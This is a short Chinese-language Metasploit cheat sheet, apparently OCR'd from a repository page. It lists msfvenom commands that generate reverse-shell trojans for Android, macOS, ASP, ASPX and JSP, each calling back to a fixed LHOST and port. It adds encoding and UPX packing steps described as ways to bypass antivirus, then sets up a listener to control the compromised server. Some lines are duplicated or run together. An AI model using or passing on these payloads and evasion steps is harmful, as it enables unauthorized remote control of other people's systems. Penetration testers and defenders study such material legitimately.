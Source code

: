1. 安卓app:
    msfvenom -p android/meterpreter/reverse_tcpLHOST=192.168.10.27LPORT=8888 -o \~/Desktop/test2.apk
1. Mac:
    msfvenom -p osx/x86/shell_reverse_tcpLHOST=192.168.10.27LPORT=8888 -f macho \> shell.macho
1. ASP:
    msfvenom -p windows/meterpreter/reverse_tcpLHOST=192.168.10.27LPORT=8888 -f asp \> shell.asp
1. ASPX：
    msfvenom -p windows/meterpreter/reverse_tcpLHOST=192.168.10.27LPORT=8888 -f aspx \> shell.aspx
1. JSP:
    msfvenom -p java/jsp_shell_reverse_tcpLHOST=192.168.10.27LPORT=8888 -fraw> shell.jsp
1. ASP:
    msfvenom -p windows/meterpreter/reverse_tcpLHOST=192.168.10.27LPORT=8888 -f asp \> shell.asp
1. ASPX：
    msfvenom -p windows/meterpreter/reverse_tcpLHOST=192.168.10.27LPORT=8888 -f aspx \> shell.aspx
1. JSP:
    msfvenom -p java/jsp_shell_reverse_tcpLHOST=192.168.10.27LPORT=8888 -fraw> shell.jsp

**payload加编码（绕过杀软）:**

1.  msfvenom -p \<payload> \<payload options> -a \<arch> --platform \<platform> -e \<encoder option> -i \<encoder times> -b \<bad-chars> -n \<nopsled> -f \<format> -o \<path>
2.  msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 -f exe \> 1.exe
3.  生成执行计算器payload例子：msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe \> 1.exe


**利用 upx 加壳**

1.  upx -9 test.exe -k -o test2.exe
**配合木马弹Shell：使用msf连接上被执行的木马文件，达到控制目标服务器。**

### msf监听

开启msf，启用exploit/multi/handler模块。

-   ![image1](metasploit.assets/image1-1.png)
-   **这里set的payload跟生成木马使用的payload要一致，其余的参数根据选择的payload而填写。**

## metasploit后渗透攻击

> 拿到shell之后，就可以用metasploit来进行后渗透攻击了。
